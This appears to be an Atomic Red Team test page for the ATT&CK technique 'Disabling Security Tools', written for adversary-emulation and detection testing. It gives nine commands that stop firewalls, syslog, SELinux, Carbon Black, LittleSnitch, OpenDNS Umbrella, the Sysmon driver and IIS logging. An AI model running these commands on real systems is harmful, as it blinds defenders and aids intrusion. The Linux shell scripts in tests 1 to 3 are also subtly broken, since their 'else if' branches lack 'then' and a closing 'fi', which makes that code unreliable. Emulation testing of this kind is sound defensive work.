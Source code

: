 # T1089 - Disabling Security Tools
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1089)
<blockquote>Adversaries may disable security tools to avoid possible detection of their tools and activities. This can take the form of killing security software or event logging processes, deleting Registry keys so that tools do not start at run time, or other methods to interfere with security scanning or event reporting.

Detection: Monitor processes and command-line arguments to see if security tools are killed or stop running. Monitor Registry edits for modifications to services and startup programs that correspond to security tools. Lack of log or event file reporting may be suspicious.

Platforms: Linux, macOS, Windows

Data Sources: API monitoring, Anti-virus, File monitoring, Services, Windows Registry, Process command-line parameters

Defense Bypassed: Anti-virus, File monitoring, Host intrusion prevention systems, Signature-based detection, Log analysis</blockquote>

## Atomic Tests

- [Atomic Test #1 - Disable iptables firewall](#atomic-test-1---disable-iptables-firewall)

- [Atomic Test #2 - Disable syslog](#atomic-test-2---disable-syslog)

- [Atomic Test #3 - Disable Cb Response](#atomic-test-3---disable-cb-response)

- [Atomic Test #4 - Disable SELinux](#atomic-test-4---disable-selinux)

- [Atomic Test #5 - Disable Carbon Black Response](#atomic-test-5---disable-carbon-black-response)

- [Atomic Test #6 - Disable LittleSnitch](#atomic-test-6---disable-littlesnitch)

- [Atomic Test #7 - Disable OpenDNS Umbrella](#atomic-test-7---disable-opendns-umbrella)

- [Atomic Test #8 - Unload Sysmon Filter Driver](#atomic-test-8---unload-sysmon-filter-driver)

- [Atomic Test #9 - Disable Windows IIS HTTP Logging](#atomic-test-9---disable-windows-iis-http-logging)


<br/>

## Atomic Test #1 - Disable iptables firewall
Disables the iptables firewall

**Supported Platforms:** Linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service iptables stop
  chkconfig off iptables
  service ip6tables stop
  chkconfig off ip6tables
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop firewalld
  systemctl disable firewalld
fi
```
<br/>
<br/>

## Atomic Test #2 - Disable syslog
Disables syslog collection

**Supported Platforms:** Linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service rsyslog stop
  chkconfig off rsyslog
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop rsyslog
  systemctl disable rsyslog
fi
```
<br/>
<br/>

## Atomic Test #3 - Disable Cb Response
Disable the Cb Response service

**Supported Platforms:** Linux


#### Run it with `sh`!
```
if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "6" ];
then
  service cbdaemon stop
  chkconfig off cbdaemon
else if [ $(rpm -q --queryformat '%{VERSION}' centos-release) -eq "7" ];
  systemctl stop cbdaemon
  systemctl disable cbdaemon
fi
```
<br/>
<br/>

## Atomic Test #4 - Disable SELinux
Disables SELinux enforcement

**Supported Platforms:** Linux


#### Run it with `sh`!
```
setenforce 0
```
<br/>
<br/>

## Atomic Test #5 - Disable Carbon Black Response
Disables Carbon Black Response

**Supported Platforms:** macOS


#### Run it with `sh`!
```
sudo launchctl unload /Library/LaunchDaemons/com.carbonblack.daemon.plist
```
<br/>
<br/>

## Atomic Test #6 - Disable LittleSnitch
Disables LittleSnitch

**Supported Platforms:** macOS


#### Run it with `sh`!
```
sudo launchctl unload /Library/LaunchDaemons/at.obdev.littlesnitchd.plist
```
<br/>
<br/>

## Atomic Test #7 - Disable OpenDNS Umbrella
Disables OpenDNS Umbrella

**Supported Platforms:** macOS


#### Run it with `sh`!
```
sudo launchctl unload /Library/LaunchDaemons/com.opendns.osx.RoamingClientConfigUpdater.plist
```
<br/>
<br/>

## Atomic Test #8 - Unload Sysmon Filter Driver
Unloads the Sysinternals Sysmon filter driver without stopping the Sysmon service. 

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| sysmon_driver | The name of the Sysmon filter driver (this can change from the default) | string | SysmonDrv|

#### Run it with `command_prompt`!
```
fltmc.exe unload #{sysmon_driver}
```
<br/>
<br/>

## Atomic Test #9 - Disable Windows IIS HTTP Logging
Disables HTTP logging on a Windows IIS web server as seen by Threat Group 3390 (Bronze Union). 
This action requires HTTP logging configurations in IIS to be unlocked.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| website_name | The name of the website on a server | string | Default Web Site|

#### Run it with `command_prompt`!
```
C:\Windows\System32\inetsrv\appcmd.exe set config "#{website_name}" /section:httplogging /dontLog:true
```
<br/>
